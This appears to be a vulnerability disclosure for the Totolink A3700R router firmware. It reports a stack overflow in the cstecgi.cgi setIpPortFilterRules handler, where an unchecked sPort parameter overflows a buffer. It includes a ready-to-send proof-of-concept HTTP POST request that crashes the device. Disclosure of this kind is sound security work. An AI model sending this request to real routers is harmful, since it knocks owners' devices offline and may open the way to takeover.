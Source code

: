 
### **Overview**：
Affected Device: Totolink A3700R 

Affected Firmware Version: V9.1.2u.6165_20211012 

Vulnerability: Stack overflow leading to denial of service and privilege escalation

Firmware Download Link: [Firmware Download Link](https://download.totolink.tw/uploads/firmware/A3700R/TOTOLINK_A3700R_V9.1.2u.6165_20211012.zip) 

Report Email: [zwx918569613@gmail.com](mailto:zwx918569613@gmail.com)


![](Pasted%20image%2020231022165035.png)

### **Vulnerability**：

This vulnerability is located in the `cstecgi.cgi` file within the `FUN_0041f884` function, with the alias `setIpPortFilterRules`.

![](Pasted%20image%2020231023212707.png)


`cstecgi.cgi` processes different function interfaces based on the value of `topicurl`.
It does not impose length restrictions on the incoming parameter `sPort`. The `sprintf` function is used to format and concatenate the parameter `sPort` into the `acStack_70` variable, which results in a stack overflow vulnerability.


### **POC**:

To reproduce the vulnerability, you can use a real device or simulate it using QEMU. The following POC can be used to exploit it:


~~~
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.122.15
Content-Length: 586
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.5790.110 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.122.15
Referer: http://192.168.122.15/basic/index.html
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: SESSION_ID=2:1698059537:2
Connection: close

{"topicurl": "setting/setIpPortFilterRules","addEffect":"1","sPort": "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa"}

~~~

### **Impact**：

![](Pasted%20image%2020231023212539.png)